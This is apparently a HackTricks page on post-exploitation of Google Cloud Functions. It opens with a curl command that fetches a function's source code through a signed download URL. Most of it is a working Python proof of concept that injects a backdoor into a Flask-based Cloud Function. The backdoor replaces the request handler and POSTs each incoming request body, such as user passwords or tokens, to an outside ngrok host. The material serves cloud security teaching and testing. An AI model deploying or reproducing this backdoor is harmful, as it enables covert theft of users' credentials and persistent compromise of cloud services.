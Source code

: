 # GCP - Cloud Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Functions

Find some information about Cloud Functions in:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.sourceCodeGet`

With this permission you can get a **signed URL to be able to download the source code** of the Cloud Function:

```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```

### Steal Cloud Function Requests

If the Cloud Function is managing sensitive information that users are sending (e.g. passwords or tokens), with enough privileges you could **modify the source code of the function and exfiltrate** this information.

Moreover, Cloud Functions running in python use **flask** to expose the web server, if you somehow find a code injection vulnerability inside the flaks process (a SSTI vulnerability for example), it's possible to **override the function handler** that is going to receive the HTTP requests for a **malicious function** that can **exfiltrate the request** before passing it to the legit handler.

For example this code implements the attack:

```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
    """HTTP Cloud Function.
    Args:
        request (flask.Request): The request object.
        <https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
    Returns:
        The response text, or any set of values that can be turned into a
        Response object using `make_response`
        <https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
    """

    if not last:
        return injection()
    else:
        if error:
            return error
        else:
            return "Hello World!"



# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
    try:
        from urllib import request as urllib_request
        req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
        urllib_request.urlopen(req, timeout=0.1)
    except Exception as e:
        if not "read operation timed out" in str(e):
            return str(e)

    return ""

def new_http_view_func_wrapper(function, request):
    def view_func(path):
        try:
            error = exfiltrate(request)
            return function(request._get_current_object(), last=True, error=error)
        except Exception as e:
            return str(e)

    return view_func
"""

def injection():
    global new_function
    try:
        from flask import current_app as app
        import flask
        import os
        import importlib
        import sys

        if os.access('/tmp', os.W_OK):
            new_function_path = "/tmp/function.py"
            with open(new_function_path, "w") as f:
                f.write(new_function)
            os.chmod(new_function_path, 0o777)

        if not os.path.exists('/tmp/function.py'):
            return "/tmp/function.py doesn't exists"

        # Get relevant function names
        handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
        source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (./main.py by default)
        realpath = os.path.realpath(source_path) # Get full path

        # Get the modules representations
        spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
        module_handler = importlib.util.module_from_spec(spec_handler)

        spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
        module_backdoor = importlib.util.module_from_spec(spec_backdoor)

        # Load the modules inside the app context
        with app.app_context():
            spec_handler.loader.exec_module(module_handler)
            spec_backdoor.loader.exec_module(module_backdoor)

        # make the cloud funtion use as handler the new function
        prev_handler = getattr(module_handler, handler_fname)
        new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
        app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
        return "Injection completed!"

    except Exception as e:
        return str(e)
```





